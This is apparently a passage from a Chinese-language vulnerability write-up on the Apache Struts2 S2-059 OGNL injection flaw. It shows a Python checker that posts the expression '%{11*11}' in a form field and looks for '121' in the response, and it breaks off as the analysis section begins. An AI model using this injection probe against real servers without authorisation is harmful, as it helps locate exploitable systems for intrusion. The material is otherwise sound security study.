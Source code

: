 ```python
            self.url = self.url + '/index.action'
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded"
        }
       
        self.payload = {
            'skillName': '%{11*11}',
            'url': '/s2_059_war_exploded/index.action'
        }
    
    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
        
        check_req = requests.post(self.url, data = self.payload, headers = self.headers)
        check_str = re.sub('\n', '', check_req.text)
        result = re.findall('label id="(.*?)">', check_str)
        if '121' in result[0]:
            return True
        else:
            return False

if  __name__ == "__main__":
    S2_059 = S2_059_BaseVerify('http://localhost:8080/s2_059_war_exploded/index.action')
    print(S2_059.run())
```

## 漏洞分析

首先Struts2的运行流程是
